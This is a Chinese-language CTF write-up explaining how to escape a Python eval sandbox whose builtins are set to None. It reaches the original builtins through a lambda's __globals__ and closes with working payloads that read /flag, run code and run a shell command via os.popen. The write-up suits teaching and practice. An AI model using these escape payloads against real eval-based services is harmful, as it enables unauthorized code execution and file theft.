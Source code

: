 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

<script setup>
import SVGGithub from '@docs/assets/icons/mdi--github.svg?component'
</script>

# 臭皮踩踩背

题目需要用 nc 连接，给出了部分源码：

```python
def ev4l(*args):
    print(secret)
inp = input("> ")
f = lambda: None
print(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))
```

完整源码：

```python
print('你被豌豆关在一个监狱里……')
print('豌豆百密一疏，不小心遗漏了一些东西…')
print('''def ev4l(*args):\n\tprint(secret)\ninp = input("> ")\nf = lambda: None\nprint(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))''')
print('能不能逃出去给豌豆踩踩背就看你自己了，臭皮…')

def ev4l(*args):
    print(secret)

secret = '你已经拿到了钥匙，但是打开错了门，好好想想，还有什么东西是你没有理解透的？'

inp = input("> ")

f = lambda: None

if "f.__globals__['__builtins__'].eval" in inp:
    f.__globals__['__builtins__'].eval = ev4l
else:
    f.__globals__['__builtins__'].eval = eval

try:
    print(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))
except Exception as e:
    print(f"Error: {e}")
```

再此之前，我们来学习一下[参考文档](/guide/2024/week3.html#臭皮踩踩背)中的内建函数 `__builtins__`，还有 `globals` 到底是什么，再了解的 `eval()` 的原理，逃离这个上下文。

::: warning 注意
下面的代码块中，除特别说明外，若代码块中存在 `>>>` 开头，则表示该代码块是在自己的 Python 环境中作为测试执行的<span data-desc>（直接命令行运行 `python`）</span>，否则，则是 nc 后发送给题目的内容。
:::

## globals 和 builtins

`globals` 是我们当前的全局空间，如果你声明一个全局变量，它将会存在于当前的 `globals` 中，我们可以看一下 `globals` 中到底有哪些内容，直接新建一个 Python 会话：

```python
>>> globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>}
>>> x=1
>>> globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'x': 1}
```

但是为什么我们能够直接调用 `open()` 函数呢？因为。但是如果访问了 `open` 函数，如果 `globals` 中有，那就执行 `globals` 中的<span data-desc>（可能是你自己定义的，因此存在于 `globals` 空间中）</span>，否则，执行 `builtins` 中的<span data-desc>（类似 `open` `eval` `__import__` 之类的函数都是在 `builtins` 中的）</span>。

我们来查看一下 `builtins` 中到底有哪些内容：

```python
>>> globals()['__builtins__'].__dict__.keys()
dict_keys(['__name__', '__doc__', '__package__', '__loader__', '__spec__', '__build_class__', '__import__', 'abs', 'all', 'any', 'ascii', 'bin', 'breakpoint', 'callable', 'chr', 'compile', 'delattr', 'dir', 'divmod', 'eval', 'exec', 'format', 'getattr', 'globals', 'hasattr', 'hash', 'hex', 'id', 'input', 'isinstance', 'issubclass', 'iter', 'aiter', 'len', 'locals', 'max', 'min', 'next', 'anext', 'oct', 'ord', 'pow', 'print', 'repr', 'round', 'setattr', 'sorted', 'sum', 'vars', 'None', 'Ellipsis', 'NotImplemented', 'False', 'True', 'bool', 'memoryview', 'bytearray', 'bytes', 'classmethod', 'complex', 'dict', 'enumerate', 'filter', 'float', 'frozenset', 'property', 'int', 'list', 'map', 'object', 'range', 'reversed', 'set', 'slice', 'staticmethod', 'str', 'super', 'tuple', 'type', 'zip', '__debug__', 'BaseException', 'Exception', 'TypeError', 'StopAsyncIteration', 'StopIteration', 'GeneratorExit', 'SystemExit', 'KeyboardInterrupt', 'ImportError', 'ModuleNotFoundError', 'OSError', 'EnvironmentError', 'IOError', 'WindowsError', 'EOFError', 'RuntimeError', 'RecursionError', 'NotImplementedError', 'NameError', 'UnboundLocalError', 'AttributeError', 'SyntaxError', 'IndentationError', 'TabError', 'LookupError', 'IndexError', 'KeyError', 'ValueError', 'UnicodeError', 'UnicodeEncodeError', 'UnicodeDecodeError', 'UnicodeTranslateError', 'AssertionError', 'ArithmeticError', 'FloatingPointError', 'OverflowError', 'ZeroDivisionError', 'SystemError', 'ReferenceError', 'MemoryError', 'BufferError', 'Warning', 'UserWarning', 'EncodingWarning', 'DeprecationWarning', 'PendingDeprecationWarning', 'SyntaxWarning', 'RuntimeWarning', 'FutureWarning', 'ImportWarning', 'UnicodeWarning', 'BytesWarning', 'ResourceWarning', 'ConnectionError', 'BlockingIOError', 'BrokenPipeError', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionRefusedError', 'ConnectionResetError', 'FileExistsError', 'FileNotFoundError', 'IsADirectoryError', 'NotADirectoryError', 'InterruptedError', 'PermissionError', 'ProcessLookupError', 'TimeoutError', 'open', 'quit', 'exit', 'copyright', 'credits', 'license', 'help', '_'])
```

可以看到 `open` `eval` `__import__` 等函数都在 `builtins` 中。

## eval

`eval` 函数的第一个参数就是一个字符串，即你要执行的 Python 代码，第二个参数就是一个字典，指定在接下来要执行的代码的上下文中，`globals` 是怎样的。

题目中，`eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l})` 这段代码，`__builtins__` 被设置为 `None`，而我们输入的代码就是在这个 `builtins` 为 `None` 的上下文中执行的，我们从而失去了直接使用 `builtins` 中的函数的能力，像下面的代码就会报错<span data-desc>（题目中直接输入 `print(1)`）</span>：

```python
>>> eval('print(1)', {"__builtins__": None})
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
TypeError: 'NoneType' object is not subscriptable
```

由于全局 `global` 中没有 `print`，从而从 `builtins` 中寻找，而 `builtins` 为 `None`，触发错误。

但注意看，题目刚好给了一个匿名函数 `f`，看似无用，实际上参考文档已经给出提示——**Python 中「一切皆对象」**。故可以利用函数对象的 `__globals__` 属性来逃逸。我们可以在 Python 终端测试一下：

```python
>>> f = lambda: None
>>> f.__globals__
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'f': <function <lambda> at 0x0000026073850700>}
```

函数的 `__globals__` 记录的是这个函数所在的 `globals` 空间，而这个 `f` 函数是在题目源码的环境中（而不是题目的 eval 的沙箱中），我们从而获取到了原始的 `globals` 环境，然后我们便可以从这个原始 `globals` 中获取到原始 `builtins`：

```python
f.__globals__['__builtins__']
```

## 深入探究 eval 的 builtin 逻辑

但这里还有一个问题，如果我们直接调用 `f.__globals__['__builtins__'].eval`，先不说题目会替换掉 `eval` 函数<span data-desc>（实际上在点号前随便几个空格或者字符串拼接就能绕过，下不赘述）</span>，即使我们能够调用，也会报错：

```python
>>> f = lambda: None
>>> inp='''f.__globals__['__builtins__'].eval('print(1)')'''
>>> eval(inp, {"__builtins__": None, 'f': f})
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
  File "<string>", line 1, in <module>
TypeError: 'NoneType' object is not subscriptable
```

为什么呢？可以看 Python 解释器的 `builtins` 相关的代码：[<SVGGithub width='1.2em' height='1.2em' style='display: inline-block; vertical-align: sub;' /> bltinmodule.c](https://github.com/python/cpython/blob/079875e39589eb0628b5883f7ffa387e7476ec06/Python/bltinmodule.c#L996-L1002).

![bltinmodule.c](/assets/images/wp/2024/week3/caicaibei_1.png)

可见，会检查 `globals` 中是否已经包含了 `builtins`，如果没有，则会通过 `PyEval_GetBuiltins()` 获取默认的内置函数，并将其添加到 `globals` 中。

又因为[官方文档中对 `eval` 函数的描述](https://docs.python.org/3.10/library/functions.html#eval)：

![官方文档](/assets/images/wp/2024/week3/caicaibei_2.png)

因此，报错的原因便是，我们在 `inp` 中的 `eval` 并没有指定 `globals`，因此 Python 会将**当前调用处的上下文的 `globals`** 作为第二个参数，即使设定了第二个参数但没有指定 `__builtins__`，Python 也会自动注入**当前上下文**中的 `builtins`（也就是未指定则继承）。但当前上下文中的 `builtins` 是 `None`，因此会报错。

绕过也很简单，显式指定即可：

```python
>>> inp='''f.__globals__['__builtins__'].eval('print(1)', { "__builtins__": f.__globals__['__builtins__'] })''' # [!code highlight]
>>> eval(inp, {"__builtins__": None, 'f': f})
```

可以看下面的结构树：

```python
# In source code
globals()               <- f.__globals__
  ├─ __builtins__       <- f.__globals__['__builtins__']
  │  ├─ open            <- f.__globals__['__builtins__'].open
  │  ├─ eval            <- f.__globals__['__builtins__'].eval
  │  └─ ...
  ├─ f                  <- f.__globals__['f']
  └─ ...
    # In `eval(inp, {"__builtins__": None, "f": f})`
    globals()
      ├─ __builtins__   <- None
      ├─ f
      └─ ...
      # Though `f` was from top globals, and you can reach top builtins by `f.__globals__['__builtins__']`
      # the context is still at this level when you run `eval()` AKA `f.__globals__['__builtins__'].eval()`
      # so Python will inject the current builtins, which is `None`, into the `eval` context
```

## Payload

综上，Payload 其实有很多种，这里列举一些：

::: code-group

```python [读文件]
f.__globals__['__builtins__'].open('/flag').read()
```

```python [代码执行]
f.__globals__['__builtins__'] .eval('open("/flag").read()', { "__builtins__": f.__globals__['__builtins__'] })
```

```python [命令执行]
f.__globals__['__builtins__'].__import__('os').popen('cat /flag').read()
```

:::
